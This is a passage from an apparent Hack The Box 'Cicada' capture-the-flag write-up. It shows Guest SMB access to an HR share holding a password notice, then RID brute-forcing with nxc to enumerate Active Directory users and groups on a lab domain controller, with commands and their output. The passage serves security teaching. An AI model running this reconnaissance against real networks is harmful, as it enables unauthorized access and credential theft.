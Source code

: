 ```
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

Checking this share, we find a note from HR.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ smbclient //10.129.150.50/HR -U "cicada.htb//Guest"
Password for [Guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

                4168447 blocks of size 4096. 459179 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (6.4 KiloBytes/sec) (average 6.4 KiloBytes/sec)
smb: \> 
```
Opening it, we find a password.
![capture-2](capture-02.PNG)
enumerating other ports give us nothing, to gain a list of users, because we have access to the SMB share, theres two ways we gain gain users.
1) Enumerating rpc and creating a script to go through a list of RIDs
2) use nxc to brute force a list of RIDs
For this, I will use nxc.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ nxc smb 10.129.150.50 -u 'Guest' -p '' --rid-brute 4000
SMB         10.129.150.50   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.150.50   445    CICADA-DC        [+] cicada.htb\Guest: 
SMB         10.129.150.50   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.150.50   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.150.50   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.150.50   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
```